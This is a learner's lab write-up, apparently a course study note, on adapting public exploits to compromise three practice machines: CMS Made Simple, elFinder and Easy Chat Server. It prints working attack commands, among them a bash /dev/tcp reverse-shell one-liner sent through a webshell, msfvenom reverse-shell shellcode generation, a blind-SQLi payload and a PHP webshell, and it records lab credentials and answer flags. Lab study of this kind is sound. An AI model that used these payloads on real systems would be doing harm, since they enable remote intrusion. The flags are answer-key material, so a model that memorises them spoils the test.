## 🏆 Capstone Labs

> 🚩 **Hands-on, VM spin-up required.** Three exercises, all genuinely hands-on with no answers derivable from the walkthrough text alone:

### Module Exercise VM #1: CMS Made Simple, full compromise
> 🔧 Status: **✅ Solved**, credentials `offsec` / `lFEZK1vMpzeyZ71e8kRRqXrFAs9X16iJ` are given directly in the exercise's own full question text, verbatim ("You recovered the credentials for the admin on this service..."). The "OS Credentials: No credentials were provided" line seen earlier only refers to SSH/system access, same convention as the [[13. Locating Public Exploits|PublicExploits]] labs, it does **not** mean the web app credentials are unknown too. That distinction cost a genuinely long detour, the full SQLi investigation below turned out to be unnecessary for this specific box, but the technique itself is real, correct, and worth keeping on record.

**Target this session:** `192.168.213.52` (this IP will differ per instance), `/cmsms/` subdirectory this time (not web root), plain **HTTP** (matches the exercise's own given URL, unlike Debian VM 1's HTTPS).

**The actual solve, once the real credentials were in hand:**
```bash
cp /usr/share/exploitdb/exploits/php/webapps/44976.py ~/44976.py
sed -i 's|base_url = "http://192.168.1.10/cmsms/admin"|base_url = "http://192.168.213.52/cmsms/admin"|' ~/44976.py
sed -i 's|username = "admin"|username = "offsec"|' ~/44976.py
sed -i 's|password = "password"|password = "lFEZK1vMpzeyZ71e8kRRqXrFAs9X16iJ"|' ~/44976.py
python2 ~/44976.py
```
`csrf_param` was already `_sk_` from the previous run and turned out correct here too, ran clean end to end first try, no debug-print step needed this time.
```bash
curl -s -G "http://192.168.213.52/cmsms/uploads/shell.php" --data-urlencode "cmd=whoami"   # www-data
```

> 📸 Screenshot: the `whoami` confirmation, worth grabbing if revisiting this VM

**Reverse shell, hit the exact issue the exercise's own hints warn about ("use a proper listening port that isn't firewalled"):**
```bash
nc -lvnp 443   # tried first, per HTTPS-style convention, listener never caught anything
```
Confirmed the payload syntax itself was fine by testing the identical `bash -c '...'` one-liner against a local `nc` listener on Kali first (worked instantly), which narrowed it down to egress filtering on the target specifically, not a command bug. Also tried `sudo nc -lvnp 80` to test another common port, which surfaced a real, separate problem: `sudo: /usr/bin/sudo must be owned by uid 0 and have the setuid bit set`, almost certainly fallout from an earlier accidental `chown -R kali:kali /usr/share` (and an interrupted `chown -R kali:kali /usr/`) during this same session's SQLi detour. Sidestepped entirely by just using an **unprivileged port** instead, no `sudo` needed:
```bash
nc -lvnp 8080
```
```bash
curl -s -G "http://192.168.213.52/cmsms/uploads/shell.php" --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/<kali_ip>/8080 0>&1'"
```
Caught immediately, `www-data@<container-id>` (the hostname is a Docker container ID format, this target's containerized, which lines up with strict egress filtering being enforced on it specifically).

```bash
whoami          # www-data
cat /home/flag.txt
```

> 📸 Screenshot: the flag read, worth grabbing if revisiting this VM

**Lab answer:** **`OS{a0ec61f991b60ec100d608427c01352e}`**, `www-data`, flag directly readable, no privesc needed.

> ⚠️ **Outstanding, unrelated to this module:** `sudo` on this Kali install is currently broken (wrong owner/missing setuid bit on `/usr/bin/sudo`), needs fixing via `su`/root access or a recovery boot before any future work that needs privileged ports or package installs.

---

**The SQLi investigation that came before the real solve, preserved below since the technique itself is correct and reusable, even though it wasn't the intended path here:**

**No credentials provided** in the excerpt seen at the time (a misleading partial read of the actual page, see above), `/cmsms/` subdirectory, HTTP.

**Step 1: Enumerate and confirm the app**
```bash
sudo nmap -sC -sV -p- --min-rate 5000 192.168.213.52   # 22 (SSH), 80 (Apache 2.4.29, default page)
curl -s -o /dev/null -w "%{http_code}\n" http://192.168.213.52/cmsms/        # 200
curl -s http://192.168.213.52/cmsms/ | grep -i version                       # confirms CMS Made Simple 2.2.5
```
`gobuster`/`common.txt` never found `/cmsms/` on its own, "cmsms" isn't a dictionary word, worth remembering to try obvious app-specific path guesses directly when a common wordlist comes up empty.

**Step 2: Try the walkthrough's own credentials first, confirm they don't apply here**
```bash
curl -s -X POST http://192.168.213.52/cmsms/admin/login.php \
  --data-urlencode "username=admin" --data-urlencode "password=HUYfaw763" \
  --data-urlencode "loginsubmit=Submit" -L
```
→ `User name or password incorrect`. Also tried the course-wide default `offsec`/`lab`, same result. Confirmed by reading `44976.py`'s actual `authenticate()` function that this replicates the real exploit's login flow exactly (same `/login.php`, same three fields), so this wasn't a test methodology gap.

**Step 3: Use CVE-2019-9053 (unauthenticated time-based blind SQLi, EDB-ID 46635) to get real credentials**
```bash
searchsploit -m php/webapps/46635.py
```
Written for Python 2 (`print "..."` statements) and needs `termcolor`, which has no `pip` package available for Kali's legacy `python2`. Rather than chase a pip install for an EOL interpreter, dropped a two-function local shim (`colored()`/`cprint()`) into the same directory, Python resolves local modules before site-packages, so this satisfied the import with zero functional loss (the module is purely cosmetic terminal coloring).

Ran as-is first: extracted salt, username, email, and password hash via `cms_siteprefs`/`cms_users` timing side-channels (script's own `sleep()`-based technique, one character at a time). Got `offsec` / `offsec@offensive_security.com` / salt `62a66030401c8c54` / hash `878941b4376617afdf268b7dd06a4651l` (**33 characters**, trailing `l`).

> 🔍 **Real finding worth generalizing: MD5 hashes are always exactly 32 hex characters (`0-9a-f`).** A 33rd character, and one that isn't even valid hex, is a dead giveaway of a false-positive timing hit, ordinary network jitter over a VPN link gets misread as a genuine `sleep()` delay by the script's fixed `TIME=1` threshold. The full alphanumeric+symbol guessing dictionary the script uses for *every* field (not just hex-shaped ones) makes this worse, since a wrong guess doesn't even need to look implausible to slip through.

**Step 4: Re-extract with a more reliable methodology, don't just trust the first noisy run**
Wrote standalone re-extraction scripts per field: `TIME` bumped to 3 seconds (harder to confuse with jitter) and, for the hex-shaped fields (salt, password hash), the guess dictionary narrowed to `0-9a-f` only (fewer wrong guesses per position, faster *and* more reliable). Re-ran salt, username, **and** password independently:
- Salt: `62a66030401c8c54` (16 chars), identical both times, confirmed clean.
- Username: `offsec` (6 chars), identical both times, confirmed clean, ruling out a hidden-extra-character theory that would have explained the login failures a different way.
- Password hash: `878941b4376617afdf268b7dd06a4651` (32 chars), the same value as the first run **minus** the bogus trailing `l`, exactly as predicted.

**Step 5: Verify the hash with a direct equality check, not just trust the incremental extraction logic**
```python
payload = "a,b,1,5))+and+(select+sleep(3)+from+cms_users+where+password+=+0x" + hex("878941b4376617afdf268b7dd06a4651") + "+and+user_id+like+0x31)+--+"
```
3.1 second delay confirmed, the hash is **exactly** right, full stop, no ambiguity left from character-by-character logic.

**Step 6: Confirm the real hashing algorithm from CMS Made Simple's actual source** (rather than trust the exploit script's own assumed formula), found in `class.user.inc.php`:
```php
function SetPassword($password) {
    $this->password = md5(get_site_preference('sitemask','').$password);
}
```
`md5(sitemask_salt . password)`, i.e. exactly `md5(salt + password)`, confirming the exploit's own `crack_password()` logic was actually correct all along.

**Step 7: Extensive cracking attempts, all unsuccessful**
- Plain `rockyou.txt` against the confirmed hash+salt+algorithm: no match.
- `hashcat -m 20` (built-in `md5($salt.$pass)` mode) + `best64.rule`: **only 20 of ~77 rules actually applied**, this Kali install's OpenCL backend is CPU-only `pocl` (no real GPU), which silently failed to convert most of best64's capitalization/leetspeak rules rather than erroring loudly.
- `john` with `--rules=best64` (native JtR rule format, no OpenCL conversion loss): properly applied this time, still no match.
- Hybrid attacks (`rockyou` + 2/4-digit suffix, `+ ?s`, `+ !`): no match.
- `john --rules=Jumbo`: ETA 10+ hours on CPU-only hardware, aborted as impractical for this session.
- A small custom wordlist of box-specific thematic guesses (site title "Fixing Public Exploits", the CVE number, `offsec`-branded variants): no match.
- Checked for a second user account (`user_id=2`): doesn't exist, `offsec` is the only account, no easier alternate target.
- Checked for stacked-query support (would have allowed directly `UPDATE`-ing the password instead of cracking it): not supported, standard single-statement `mysqli_query()` behavior.

**Step 8: Consulted OffSec's KAI assistant to sanity-check the approach.** Response confirmed the SQLi technique itself is valid and "on the right track," but suggested the intended path for this specific VM likely isn't cracking the password at all, hinting instead at finding credentials elsewhere in the lab environment. This led directly to discovering [[14. Fixing Exploits#Hands-On: "Debian VM 1", the learning unit's own companion machine|"Debian VM 1"]] is a **separate resource** from this Module Exercise VM, not the same machine, which is where the walkthrough's own credentials actually apply.

**Where this actually left things:** the CVE-2019-9053 SQLi chain was fully proven correct end to end (salt, username, hash, and algorithm all independently triple-confirmed) and remains a real, reusable technique, `offsec`'s password genuinely wasn't crackable with the wordlists/compute available in a normal lab session. But it turned out to be solving a problem this specific exercise never actually posed: the real credentials were given directly in the exercise's own full question text the whole time (see the top of this section), just not visible in the shorter excerpt read at the time. Lesson learned and already generalized above.

**Lab answer:** **`OS{a0ec61f991b60ec100d608427c01352e}`**, see the actual solve at the top of this section. SQLi trail kept here as a real, verified technique writeup, not as the path that solved this box.

> 🔗 **Reference:** OffSec's own **KAI** in-platform AI study assistant is worth consulting exactly like this, as a sanity-check on approach/direction, not as an answer key, when a technique that should work keeps not working. Genuinely useful here specifically because it prompted questioning an assumption (which VM the walkthrough's credentials belong to, and by extension, whether the full exercise text had actually been read) rather than just suggesting more of the same.

#### Tags: #CVE20199053 #TimeBasedBlindSQLi #Hashcat #JohnTheRipper #CrackingFailure #Blocked #KAI #Lab #Quiz #Module14

### Module Exercise VM #2: elFinder web application
> 🔧 Technique (per the exercise's own hints): directory-brute-force with `directory-list-2.3-small.txt` (needs time), find the elFinder base path, adjust the public exploit's URL, place a fake/sample JPEG locally matching the exploit's own naming spec, run with `python2`.

**Target:** `192.168.243.46` (IP rotated after a VPN reconnect, new `tun0` was `192.168.45.219`), no credentials needed. **Status: ✅ Solved.**

*Session was paused earlier for a broken `sudo` (`/usr/bin/sudo` had lost root ownership/setuid from an accidental `chown -R` during this same module's SQLi detour). Fixed via `su`/root access before resuming, `sudo whoami` confirmed `root` again.*

**Step 1: Full TCP port scan**
```bash
sudo nmap -sC -sV -p- --min-rate 5000 192.168.243.46
```
Result:
```
22/tcp   open  ssh           OpenSSH 7.4p1 Debian 10+deb9u3
80/tcp   open  http          Apache httpd 2.4.25 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
3389/tcp open  ms-wbt-server Microsoft Terminal Service
```
Port 80 is just Apache's default page, so the elFinder app itself is sitting under some subdirectory. Port 3389 (`ms-wbt-server`, i.e. RDP) on a Linux box is unusual, almost certainly `xrdp`, noted but not this box's path in.

> 📸 Screenshot: the nmap results, if available

**Step 2: Directory brute-force the web root**
```bash
gobuster dir -u http://192.168.243.46/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50
```
Result: one hit, `seclab (Status: 301) [Size: 317] [--> http://192.168.243.46/seclab/]`.

> 🔧 **Worth remembering:** this took two separate `gobuster` passes (web root, then again inside `/seclab/`) to actually reach the app. A recursive scanner like `feroxbuster` would have found the full path in one run, worth a [[MODERN TOOLING]] entry once doing the module completion pass on this note.

**Step 3: Check what `/seclab/` actually is**
```bash
curl -s http://192.168.243.46/seclab/ | head -30
curl -s http://192.168.243.46/seclab/elfinder/ | head -30
```
First returns `403 Forbidden` (directory listing just disabled, folder's real), second returns a flat `404` (elFinder isn't nested one level deeper under an obvious name). Needed another brute-force pass, this time scoped inside `/seclab/`.

**Step 4: Brute-force inside `/seclab/`**
```bash
gobuster dir -u http://192.168.243.46/seclab/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50
```
Result:
```
files                (Status: 301) [Size: 323] [--> http://192.168.243.46/seclab/files/]
php                  (Status: 301) [Size: 321] [--> http://192.168.243.46/seclab/php/]
css                  (Status: 301) [Size: 321] [--> http://192.168.243.46/seclab/css/]
js                   (Status: 301) [Size: 320] [--> http://192.168.243.46/seclab/js/]
img                  (Status: 301) [Size: 321] [--> http://192.168.243.46/seclab/img/]
sounds               (Status: 301) [Size: 324] [--> http://192.168.243.46/seclab/sounds/]
Changelog            (Status: 200) [Size: 55390]
```
That `files/php/css/js/img/sounds/Changelog` layout is elFinder's own repo structure. `/seclab/` **is** the elFinder install root itself, not a parent folder containing it.

> 📸 Screenshot: the gobuster hit inside `/seclab/`, if available

**Step 5: Confirm the exact version**
```bash
curl -s http://192.168.243.46/seclab/Changelog | head -20
```
Top entry: `* elFinder (2.1.47):`, confirmed **elFinder 2.1.47**.

**Step 6: Find a matching public exploit**
```bash
searchsploit elfinder
```
Four results. `elFinder 2.1.47 - 'PHP connector' Command Inj... | php/webapps/46481.py` is an exact version match, and matches the module's own hint about running with `python2`. (The `46539.rb` Metasploit module also covers `< 2.1.48` but via a different `exiftran` technique, not the one this exercise points at.)

**Step 7: Copy and read the exploit before running it**
```bash
searchsploit -m php/webapps/46481.py
cat 46481.py
```
CVE-2019-9194. **What it actually does, read line by line:**
1. `upload()` POSTs a real image to `/php/connector.minimal.php`, but names it via the `payload` string: `SecSignal.jpg;echo <hex>|xxd -r -p > SecSignal.php;echo SecSignal.jpg`. The `;` is shell metacharacter injection, the vulnerability is that elFinder's PHP connector passes the filename unsanitized into a shell command during image processing.
2. The hex blob decodes (`xxd -r -p` reverses hex into raw bytes) to `<?php system($_GET["c"]); ?>`, a one-line PHP webshell taking commands via `?c=`.
3. `imgRotate()` calls elFinder's own image-rotate command (`cmd=resize`) on the freshly uploaded file. This is the actual trigger, server-side elFinder shells out to an image tool using the tainted filename at this point, which is where the injected `echo | xxd -r -p > SecSignal.php` really executes.
4. `shell()` hits the dropped `SecSignal.php` directly and drops into an interactive `$` prompt, each command sent as a GET request via `?c=<cmd>`.

```mermaid
sequenceDiagram
    participant A as Attacker (46481.py)
    participant E as elFinder PHP connector
    A->>E: POST connector.minimal.php, upload real JPEG,<br/>filename=SecSignal.jpg;echo &lt;hex&gt;|xxd -r -p &gt; SecSignal.php;echo SecSignal.jpg
    E-->>A: JSON {added:[{hash:...}]}
    Note over E: filename gets passed unsanitized<br/>into a shell command later
    A->>E: GET connector.minimal.php?cmd=resize&target=&lt;hash&gt;...
    Note over E: image-rotate shells out using the<br/>tainted filename, injected command runs
    E-->>E: SecSignal.php webshell written to disk
    A->>E: GET /php/SecSignal.php?c=whoami
    E-->>A: www-data
```

No hardcoded IP to patch, the script takes the target as a CLI argument (base app path, no trailing slash, since it appends `/php/connector.minimal.php` itself).

> 🔗 **PayloadsAllTheThings**, "Filename Vulnerabilities" section of the file upload page: verified this exact technique (`; sleep 10;`-style command injection via the uploaded filename) is documented there: [Upload Insecure Files/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/README.md)
> 🔗 **HackTricks** File Upload page covers the same filename-injection trick (`Set filename to ; sleep 10; to test command injection`), via the GitHub source workaround (this vault's standing substitution for HackTricks' paywalled live site): [pentesting-web/file-upload/README.md](https://github.com/HackTricks-wiki/hacktricks/blob/master/src/pentesting-web/file-upload/README.md)
> 🎥 **Real writeup of this exact CVE** (verified live), a TryHackMe "Lookup" box that uses the same elFinder CVE-2019-9194 chain: [medium.com/@z0diac/lookup-ctf-tryhackme-writeup](https://medium.com/@z0diac/lookup-ctf-tryhackme-writeup-284ddfd85b2f)

🔁 **Similar to:** the underlying idea (trusting attacker-controlled input that ends up in a shell command) is the same family as [[09. Common Web Application Attacks#9.4.1. OS Command Injection|9.4.1's OS Command Injection]], just delivered through a filename instead of a form field. Also a clean contrast with this same module's [[14. Fixing Exploits#14.2.2. Selecting the Vulnerability and Fixing the Code|14.2.2 CMS Made Simple exploit]], which needed the target URL/creds/TLS patched by hand, this one needed zero patching, just the right CLI argument and a real JPEG on disk.

**Step 8: Create the fake JPEG the exploit's `payload` variable hardcodes as `SecSignal.jpg`**
```bash
which convert && convert -size 10x10 xc:white SecSignal.jpg
file SecSignal.jpg
```
Confirmed a real JPEG on disk, matching the module's own warning to have a valid image file ready before running the exploit.

**Step 9: Run the exploit**
```bash
python2 46481.py http://192.168.243.46/seclab
```
```
[*] Uploading the malicious image...
[*] Running the payload...
[+] Pwned! :)
[+] Getting the shell...
$
```

> 📸 Screenshot: the `[+] Pwned!` shell prompt, if available

**Step 10: Confirm identity and find the flag, through the exploit's own interactive `$` prompt**
```
whoami
pwd
ls -la
```
```
www-data
/var/www/http/seclab/php
...
-rw-r--r-- 1 root     root         37 Aug  8 15:25 flag.txt
...
```
`flag.txt` is owned by `root` but world-readable (`rw-r--r--`), so the `www-data` shell can read it directly, no privesc needed.

**Step 11: Read the flag**
```
cat flag.txt
```
```
OS{415b0c1a3a8c224baa635d3b284de4ce}
```

> 📸 Screenshot: the flag read, if available

**Lab answer:** **`OS{415b0c1a3a8c224baa635d3b284de4ce}`**, `www-data`, via CVE-2019-9194 filename command injection, no privesc needed.

#### Tags: #ElFinder #CVE20199194 #FilenameCommandInjection #Gobuster #SearchSploit #Lab #Quiz #Module14 #Capstone

### Module Exercise VM #3: Unknown service, memory corruption
No hand-holding, enumerate the target, identify the vulnerable service, find and fix a matching public exploit using the same process as 14.1.
> 🔧 Technique (per the exercise's own hints): set the correct staged/stageless payload to actually catch the reverse shell, keep the exploit's NOP sled intact, and expect to need more than one candidate exploit before one lands.

**Target:** `192.168.243.213`, no credentials needed. **Status: ✅ Solved.**

**Step 1: Full TCP port scan**
```bash
sudo nmap -sC -sV -p- --min-rate 5000 192.168.243.213
```
Result: Windows host, `135/139/445` SMB/RPC, `5985` WinRM, and `20000/tcp open http Easy Chat Server httpd 1.0`. Easy Chat Server is a well-known target for public buffer overflow exploits, an obvious candidate for "the application with a memory corruption vulnerability."

> 📸 Screenshot: the nmap results, if available

**Step 2: Confirm the app is genuinely up** (a `HEAD` request 404s, oddly, but a real `GET` returns the actual chat homepage)
```bash
curl -v http://192.168.243.213:20000/ 2>&1 | head -40
```
Result: `200 OK`, `Server: Easy Chat Server/1.0`, real chat-room HTML. Quirky HTTP handling (`HEAD` 404s, `GET` works) worth remembering as a symptom of homegrown, non-standard HTTP server code, not a sign anything's actually broken.

**Step 3: Search for matching public exploits**
```bash
searchsploit easy chat server
```
Four buffer-overflow-shaped candidates targeting v3.1/v2.2-3.1. Picked three genuine RCE stack overflows to compare:

**Step 4: Copy and read all three**
```bash
mkdir -p ~/ecs && cd ~/ecs
searchsploit -m windows/remote/50999.py windows/remote/42155.py windows/remote/33326.py
cat 50999.py 42155.py 33326.py
```
- **`50999.py`** — `chat.ghp?username=` overflow, offset 217, SEH at `0x1001AE86` in `SSLEAY32.DLL`, already ships an explicit 16-byte NOP sled in front of a staged `windows/meterpreter/reverse_tcp` payload. Takes target IP/port as CLI args.
- **`42155.py`** — a *different* bug, the `register.ghp` registration-page username field, not `chat.ghp`. Kept as a fallback only.
- **`33326.py`** — same `chat.ghp` bug as 50999 but offset 203 and a different `pop/pop/ret` address (`0x10010E1E`). Its own header carries a real "verify, don't trust" lesson: **the SEH offset only holds if Easy Chat Server is installed at the default path** (`C:\Program Files\EFS Software\Easy Chat Server`), same discipline as [[14. Fixing Exploits#14.1.4. Fixing the Exploit|14.1.4]]'s "never trust a hardcoded return address blindly."

Picked `50999.py` to try first, its shape (explicit NOP sled, staged payload already in place) matches both of the exercise's own hints most directly.




> 🔗 **Corelan Team**, "Exploit writing tutorial part 3: SEH Based Exploits", the canonical deep-dive on exactly this technique (verified live): [corelan.be/.../exploit-writing-tutorial-part-3-seh](https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/)
> 🔗 **OnSecurity**, "Discover Buffer Overflow – Easy Chat Server ready for OSCP", a full from-scratch walkthrough (fuzzing → Mona.py offset discovery → bad chars → working exploit) covering the "do it yourself locally" path this run skipped by reusing existing research (verified live): [onsecurity.io/blog/buffer-overflow-easy-chat-server-31](https://www.onsecurity.io/blog/buffer-overflow-easy-chat-server-31/)

> 📸 Screenshot: the `searchsploit` results for "easy chat server", worth grabbing if revisiting this VM

**Step 5: Generate fresh shellcode as raw bytes** (read from a file rather than hand-transcribed into the script, same "never hand-transcribe multi-line binary blobs" discipline used for secret extraction generally), choosing **stageless** `windows/shell_reverse_tcp` over the original's staged meterpreter payload, same choice this module already made for Sync Breeze back in [[14. Fixing Exploits#14.1.4. Fixing the Exploit|14.1.4]], so a plain `nc` listener catches it directly with no `multi/handler` stager to keep in sync:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.219 LPORT=4444 EXITFUNC=thread -f raw -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x20\x25\x26\x2b\x3d" -o ~/ecs/shell.bin
```
351-byte payload generated. Bad chars reused `\x00`/`\x20` from the original exploit's own testing, added `\x0a\x0d\x25\x26\x2b\x3d` defensively since the shellcode rides inside an HTTP GET query string, same reasoning as [[14. Fixing Exploits#14.2.2. Selecting the Vulnerability and Fixing the Code|14.2.2]]'s CMS Made Simple bad-char list.

> 🔗 **PayloadsAllTheThings** Reverse Shell Cheatsheet has dedicated staged-vs-stageless sections for exactly this Windows msfvenom choice: [Reverse Shell Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

**Step 6: Patch a copy of `50999.py` to read the shellcode from the file, and fix the hardcoded test-environment `Host`/`Referer` to point at the real target**
```bash
cat > ~/ecs/50999_patched.py << 'EOF'
[... junk/nseh/seh unchanged from 50999.py, shellcode = b"\x90"*16 + open("shell.bin","rb").read(), Host/Referer built from sys.argv[1] instead of hardcoded ...]
EOF
```
*(Full patched script content preserved in the working copy on disk, `~/ecs/50999_patched.py`.)*

**Step 7: First attempt, caught the ordering mistake worth remembering generally**
```bash
python3 50999_patched.py 192.168.243.213 20000
```
Ran this *before* a listener was up. `[+] Done!` printed, nothing caught, as expected, no listener means no shell to receive. Re-ran the exploit a second time to test again and got `ConnectionRefusedError: [Errno 111] Connection refused` on port 20000, the first (uncaught) run had actually crashed the Easy Chat Server service. That's a genuinely useful signal in BOF work: **a target crash after sending a payload usually means the overwrite path itself is correct**, you've just lost that specific shot at catching the shell, not proof the exploit is wrong.

> 🔍 **Worth remembering generally:** always start the listener first and leave it running, then fire the exploit, never the other way round, exactly this mistake cost a full attempt (and a target crash requiring a VM reset) here.

**Step 8: Reset the target VM via the lab platform's control panel**, waited for it to come back, confirmed with:
```bash
curl -sI http://192.168.243.213:20000/
```
Back to `404 Resource not found`, service genuinely up again (not a connection error).

**Step 9: Listener up first this time, left running in a separate terminal**
```bash
nc -lvnp 4444
```

**Step 10: Fire the exploit again**
```bash
cd ~/ecs
python3 50999_patched.py 192.168.243.213 20000
```

**Result, this time caught clean on the first properly-sequenced attempt:**
```
Connection received on 192.168.243.213 49845
Microsoft Windows [Version 10.0.22000.318]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\SysWOW64>
```
Worth noting: the target's exact build (`10.0.22000.318`, Windows 11) matches `50999.py`'s own header comment ("Tested on: Microsoft Windows 11 Pro x86-64... Build 22000") almost exactly, explaining why the very first SEH candidate worked with zero need to fall back to `33326.py`'s alternate offset/address.

> 📸 Screenshot: the caught shell in the listener terminal, if available

**Step 11: Confirm identity**
```
whoami
```
```
noblesse\administrator
```
Already `administrator`, no privesc needed at all, Easy Chat Server evidently runs with high privileges on this box.

**Step 12: Find the flag** (no location hint given for this VM, searched broadly)
```
dir /s /b C:\Users\*flag*
```
```
C:\Users\Administrator\Desktop\flag.txt
```

**Step 13: Read the flag**
```
type C:\Users\Administrator\Desktop\flag.txt
```
```
OS{98bac31587551d8801591d6f50cfcc61}
```

> 📸 Screenshot: the flag read, if available

**Lab answer:** **`OS{98bac31587551d8801591d6f50cfcc61}`**, `noblesse\administrator`, via a patched `50999.py` (CVE-2004-2466-class Easy Chat Server 3.1 SEH overwrite on `chat.ghp`), stageless `windows/shell_reverse_tcp`, no privesc needed.

🔁 **Similar to:** the whole "read three candidate exploits, pick the one whose shape matches the hints, keep a verified fallback in reserve" approach mirrors this module's own [[14. Fixing Exploits#14.1.4. Fixing the Exploit|14.1.4]] return-address-reliability ranking almost exactly, just with three ready-made exploits standing in for three candidate return addresses.

#### Tags: #EasyChatServer #CVE20042466 #SEHOverflow #StackBufferOverflow #Msfvenom #StagedVsStageless #NOPSled #Lab #Quiz #Module14 #Capstone

---

## 14.3. Wrapping Up

This module walked through the two ends of "fixing a public exploit": a full stack-based buffer overflow (return address, payload, and a genuinely subtle off-by-one offset bug) cross-compiled from Kali using `mingw-w64` and run via `wine`, and a web exploit that needed connection/auth/TLS fixes plus a debugging session to track down a CSRF parameter name mismatch the exploit author never anticipated.

The throughline for both halves: reading and understanding exploit code isn't optional busywork, it's the actual skill. Every fix in this module came from actually reading what the code did, not from blindly changing values and hoping. That's the same discipline [[13. Locating Public Exploits#13.1. Getting Started|13.1]] established back at the start of exploit-hunting, this module is really that same skill applied one level deeper, once "find an exploit" isn't enough and "adapt an exploit" becomes the actual job.



> 🔗 **HackTricks** Windows Exploiting (Basic Guide, OSCP level): [github.com/HackTricks-wiki/hacktricks](https://github.com/HackTricks-wiki/hacktricks/blob/master/src/binary-exploitation/windows-exploiting-basic-guide-oscp-lvl.md), covers the same buffer-overflow workflow this module does (offset discovery via Metasploit's `pattern_create`/`pattern_offset`, finding `JMP ESP` addresses with `mona.py`, identifying bad characters) in more depth, worth reading in full before attempting the hands-on labs above from scratch.

#### Tags: #Module14Summary #FixingExploitsRecap

---

## 📋 Command Reference: Fixing Exploits

Generalized, copy-pasteable commands for this whole topic, broader than just what this module's own case studies used. Full syntax/mechanics/troubleshooting live in the hub docs linked below.

```bash
# Cross-compile a Windows-only exploit from Kali
sudo apt install mingw-w64
i686-w64-mingw32-gcc exploit.c -o exploit.exe -lws2_32

# Run it without a Windows box at all
wine exploit.exe

# Fresh BOF shellcode, staged vs stageless, bad chars, NOP sled preserved separately
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> EXITFUNC=thread \
  -f raw -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x20\x25\x26\x2b\x3d" -o shell.bin

# Copy multiple candidate exploits at once when more than one looks plausible
searchsploit -m windows/remote/A.py windows/remote/B.py windows/remote/C.py
```

- **Command Appendix:** [[14. Fixing Exploits#Cross-Compiling with mingw-w64|Fixing Exploits]], [[Buffer Overflow & Memory Corruption#msfvenom: Generating Shellcode for a BOF Payload|Buffer Overflow & Memory Corruption]]
- **Command Breakdowns:** [[Fixing Exploits (Breakdowns)]], [[Buffer Overflow & Memory Corruption (Breakdowns)]], [[File Upload Attacks (Breakdowns)]]
- **Decision Tree:** [[Fixing Exploits (Decision Tree)]], [[Buffer Overflow & Memory Corruption (Decision Tree)]]
- **Methodology Cheat Sheet:** [[Windows Methodology#Step 1a: Fixing a Public Buffer Overflow Exploit|Windows Methodology, Step 1a]] (BOF half), [[Linux Methodology#Step 1a: Fixing a Public Web Exploit|Linux Methodology, Step 1a]] (web-exploit half)
- **Modern Tooling:** [[Feroxbuster]] (recursion would've saved a round trip in VM #2), module noted in the "no addition" list otherwise, see [[MODERN TOOLING]]

#### Tags: #CommandReference #Module14

---

## 🎯 Related Boxes to Practice

**[Brainpan: 1](https://www.vulnhub.com/entry/brainpan-1,51/)** (VulnHub, Linux, verified live), a custom vulnerable binary served on a nonstandard port, classic stack-based buffer overflow (offset discovery, `JMP ESP` redirect, bad chars) leading to a low-priv shell, then a separate local privesc. Genuinely built as an "exploit development" teaching box, matches this module's 14.1 half almost exactly. Created by **superkojiman**, the same author credited in the `33326.py` Easy Chat Server exploit used in this module's Capstone VM #3, a fun direct connection. Widely listed on TJ_Null's OSCP-like machine list specifically for BOF practice.

**No standalone HTB/VulnHub box found for the web-exploit-fixing half** (CMS Made Simple CVE-2018-1000094, elFinder CVE-2019-9194) after a genuine search, both CVEs mostly show up as dedicated Docker lab reproductions rather than full boxed VMs. Worth revisiting if a specific box surfaces later rather than forcing a weak match now. General "adapt a public exploit" practice is covered by [[13. Locating Public Exploits#🎯 Related Boxes to Practice|Locating Public Exploits' own Related Boxes]] (Bastard, Nibbles), same searchsploit-then-run workflow, just without this module's cross-compile/wine-adaptation layer on top.

#### Tags: #RelatedBoxes #Module14 #Brainpan

---

## **Outstanding Sections**
- [x] **14.1.1 Buffer Overflow in a Nutshell**: done (theory)
- [x] **14.1.2 Importing and Examining the Exploit**: done, EDB-ID answered
- [ ] **14.1.3 Cross-Compiling Exploit Code**: theory/walkthrough done, pure-recall questions answered, hands-on patch-and-connect pending VM spin-up
- [ ] **14.1.4 Fixing the Exploit**: theory/walkthrough done, pure-recall questions answered, hands-on pending VM spin-up
- [ ] **14.1.5 Changing the Overflow Buffer**: theory/walkthrough done, pure-recall question answered, hands-on pending VM spin-up
- [x] **14.2.1 Considerations and Overview**: done
- [x] **14.2.2 Selecting the Vulnerability and Fixing the Code**: theory/walkthrough done, all pure-recall questions answered
- [x] **14.2.3 Troubleshooting the "index out of range" Error**: theory/walkthrough fully done including hands-on, run end-to-end against "Debian VM 1" (a separate resource from the Module Exercise capstone VMs), `www-data` reverse shell caught, plus a genuine `$_GET`-vs-POST webshell bug found and fixed beyond what the walkthrough itself covers
- [x] **🏆 Capstone Labs**: VM #1 (CMS Made Simple) **✅ solved**, `OS{a0ec61f991b60ec100d608427c01352e}`, via the real given credentials, plus a thoroughly-verified (if ultimately unnecessary) CVE-2019-9053 SQLi chain kept on record as a real technique writeup. VM #2 (elFinder) **✅ solved**, `OS{415b0c1a3a8c224baa635d3b284de4ce}`, via CVE-2019-9194 filename command injection, `www-data`, no privesc needed. VM #3 (Easy Chat Server) **✅ solved**, `OS{98bac31587551d8801591d6f50cfcc61}`, via a patched SEH-overwrite exploit (CVE-2004-2466-class), `noblesse\administrator`, no privesc needed.

**Module 14 is now fully complete, and both stages of the module completion pass are done.**

